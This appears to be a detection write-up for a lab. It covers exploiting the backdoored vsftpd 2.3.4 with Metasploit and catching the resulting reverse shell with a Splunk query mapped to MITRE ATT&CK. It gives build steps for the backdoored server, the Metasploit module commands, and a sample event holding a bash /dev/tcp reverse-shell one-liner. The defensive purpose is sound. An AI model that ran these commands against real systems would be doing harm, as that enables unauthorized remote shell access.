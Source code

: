
# Detection Use Case: Exploiting vsftpd 2.3.4 via Metasploit

## 🧪 Scenario Description
An attacker exploits a known backdoor in vsftpd version 2.3.4 using the Metasploit Framework. The vsftpd 2.3.4 vulnerability allows an attacker to obtain a reverse shell by connecting with a specially crafted username.

## 🎯 Objective
Detect the exploitation attempt and subsequent reverse shell activity, especially focusing on unexpected shell access initiated through FTP service ports (usually 21) or reverse shell callbacks.

## 🛠️ Tools & Setup
- **Offensive Tool**: Metasploit
  - Module: `exploit/unix/ftp/vsftpd_234_backdoor`
- **Detection Tools**: 
  - Netcat listener
  - SIEM (e.g., Splunk, ELK, Wazuh)
- **Lab Environment**:
  - Vulnerable target with vsftpd 2.3.4
  - Attacker system with Metasploit installed
  - SIEM monitoring on network and host events

## ⚙️ Steps to Set Up the Backdoored vsftpd 2.3.4

### Clone the Repository
```bash
git clone https://github.com/DoctorKisow/vsftpd-2.3.4.git
cd vsftpd-2.3.4
```

### Install Dependencies
```bash
sudo apt-get update
sudo apt-get install build-essential libpam0g-dev
```

### Build the vsftpd Binary
```bash
chmod +x vsf_findlibs.sh
nano Makefile
```
In the `Makefile`, add `-lpam` to the `LIBS` line, then save and exit.

```bash
make
```

### Install the vsftpd Binary
```bash
sudo install -v -m 755 vsftpd /usr/sbin/vsftpd
sudo install -v -m 644 vsftpd.conf /etc/vsftpd.conf
```

### Start the vsftpd Service
```bash
sudo /usr/sbin/vsftpd /etc/vsftpd.conf
```

## 📡 Detection Logic
Monitor for:
- Connection attempts to FTP (port 21) with suspicious usernames (e.g., those ending with `:)`).
- Unexpected outbound connections from the target system to uncommon external IPs/ports, indicating a reverse shell.
- New bash processes spawned without user interaction.
- Netcat (nc), bash, or sh running with suspicious parent processes like vsftpd.

## 🧪 Metasploit Usage
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-ip>
run
```

## 🔍 Detection Queries (Sample Splunk SPL)
```spl
index=linux_logs sourcetype=syslog
| rex field=_raw "<Data Name=\"CommandLine\">(?<CommandLine>[^<]+)</Data>"
| rex field=_raw "<Data Name=\"ParentImage\">(?<ParentImage>[^<]+)</Data>"
| eval is_reverse_shell=if(match(CommandLine, "(nc|bash|sh).*\\d+\.\\d+\.\\d+\.\\d+"), 1, 0)
| eval is_vsftpd_spawn=if(like(ParentImage, "%vsftpd%") AND is_reverse_shell=1, 1, 0)
| where is_vsftpd_spawn=1
| table _time host CommandLine ParentImage
```

## 📁 Log Fields to Monitor
| Field        | Description                                      |
|--------------|--------------------------------------------------|
| _time        | Timestamp of the event                           |
| host         | Affected system hostname                         |
| CommandLine  | Command used to spawn reverse shell              |
| ParentImage  | Process that initiated the command (e.g., vsftpd)|

## ⚠️ Alert
**Trigger Condition**: Reverse shell initiated by the vsftpd process or any suspicious connection after vsftpd service interaction.

## 🧪 Sample Event
```text
_time: 2025-05-23T16:01:34
host: vulnerable-ftp
CommandLine: bash -i >& /dev/tcp/10.0.0.15/4444 0>&1
ParentImage: /usr/sbin/vsftpd
```

## 🕵️ Analyst Notes / Recommendations
- Verify if vsftpd version is vulnerable and exposed.
- Validate if the shell access was authorized or unexpected.
- Consider isolating the system and performing forensics.
- Patch or disable vsftpd 2.3.4 immediately.

## 🔗 MITRE ATT&CK Mapping
| Technique ID  | Technique Name                | Description                                           |
|---------------|-------------------------------|-------------------------------------------------------|
| T1190         | Exploit Public-Facing Application | Exploiting vulnerable vsftpd service                |
| T1059.004     | Command and Scripting Interpreter: Unix Shell | Use of bash for reverse shell access         |
| T1071.001     | Application Layer Protocol: Web | Reverse shell callback using TCP (bash/nc)           |
| T1049         | System Network Connections Discovery | Used for post-exploitation lateral movement planning |

---

✅ **Status**: Tested in a lab setup with Splunk and Metasploit. Reverse shell detection confirmed using command-line logs and parent process analysis.
